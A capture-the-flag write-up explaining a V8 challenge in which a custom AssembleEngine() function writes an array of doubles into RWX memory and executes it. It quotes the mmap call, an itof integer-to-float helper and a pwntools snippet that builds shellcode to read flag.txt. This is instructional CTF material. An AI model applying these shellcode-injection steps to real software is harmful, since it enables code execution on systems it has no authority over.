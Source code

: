 This is a pretty strange function to have, but the process is simple. FIrst there are a couple of checks, and if they are not passed, they fail:

* Check if the number of arguments is `1`
* Assign 4096 bytes of memory **with RWX permissions**

Then, if the first argument is an array, we cast it to one and store it in `arr`. We then loop through `arr`, and for every index `i`, we store the result in the local variable `element`. If it's a number, it gets written to `func` at a set offset. Essentially, it copies the entirety of `arr` to `func`! With some added checks to make sure the types are correct.

There is then a memory dump of `func`, just to simplify things.

And then finally execution is continued from `func`, like a classic shellcoding challenge!

## Exploitation

This isn't really much of a V8-specific challenge - the data we are input is run as shellcode, and the output is returned to us.

HOWEVER

`val->Value()` actually returns a floating-point value (a `double`), not an integer. Maybe you could get this from the source code, but you could also get it from the `mmap()` line:

```cpp
double *func = (double *)mmap(NULL, 4096, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
```

You can see it's all `double` values. This means we have to inject shellcode, but in their floating-point form rather than as integers.

If you've read the [oob-v8 writeup](ctf-2019-oob-v8/the-challenge.md), you know there are common functions for converting the integers you want to be written to memory to the floating-point form that would write them (and if you haven't, check it out).

```javascript
function itof(val) { // typeof(val) = BigInt
    u64_buf[0] = Number(val & 0xffffffffn);
    u64_buf[1] = Number(val >> 32n);
    return f64_buf[0];
}
```

So now we just need to get valid shellcode, convert it into 64-bit integers and find the float equivalent. Once we make the array, we simply call `AssembleEngine()` on it and it executes it for us. Easy peasy!

We can't actually interact with the process, only get `stdout` and `stderr`, so we'll have to go to a direct read of `flag.txt`. We can use pwntools to generate the shellcode for this:

```python
from pwn import *

context.os = 'linux'
context.arch = 'amd64'

shellcode = asm(shellcraft.cat('flag.txt'))
```
